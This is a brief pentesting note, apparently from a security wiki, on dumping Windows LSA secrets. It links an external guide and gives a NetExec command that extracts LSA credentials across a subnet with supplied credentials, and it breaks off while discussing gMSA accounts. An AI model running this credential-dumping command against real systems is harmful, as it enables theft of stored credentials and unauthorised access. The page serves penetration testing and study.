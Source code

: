 ```yaml
---
description: Local Security Authority
---
```


# LSA

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets" %}

```bash
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

If you found an account starting with _`SC_GMSA`_`{84A78B8C-56EE-465b-8496-FFB35A1B52A7}` you can get the account behind
